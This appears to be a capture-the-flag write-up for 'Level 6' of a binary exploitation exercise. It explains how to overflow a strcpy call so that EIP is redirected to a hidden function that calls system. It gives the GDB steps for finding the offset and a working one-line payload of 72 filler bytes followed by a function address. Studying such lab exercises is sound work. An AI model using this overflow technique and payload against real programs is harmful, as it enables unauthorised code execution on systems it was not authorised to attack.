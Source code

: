 # LEVEL 6

## 💡 Explanation

In this level we have to:
1. Check the binary, as always! The maain calls `strcpy` and then it calls the function `m`. Same as the in the level1, inside of the binary we can also find a function `n` which contains a call to `system` but it is not called on the main.
2. We are going to exploit the call to `strcpy` to place the address of the function `n` on the eip. It is a buffer overflow similar to the level1 but instead of exploiting a `gets` we will have to pass as an argument the string that is going to overflow.
3. To build the exploit we will have to find out what if the offset of the EIP and then plance the address of `n`: [RANDOM CHARS UNTIL EIP][ADDRESS N]

## 👾 Commands

To find the solution:
```
[GDB] pattern create 200 => Stopped reason: SIGSEGV || <ADRESS> in ?? ()
[GDB] patern offset <ADRESS> => Gives the offset of EIP
[GDB] disas n
```

To execute the solution:
- `/home/user/level6/level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')`

## 🔍 Resources

- [Function C - strcpy](https://koor.fr/C/cstring/strcpy.wp)
- [Exploring Buffer Overflows in C, Part Two: The Exploit](https://www.tallan.com/blog/2019/04/04/exploring-buffer-overflows-in-c-part-two-the-exploit/)
- [Buffer Overflow using strcpy()](https://shankaraman.wordpress.com/tag/how-to-exploit-strcpy/)
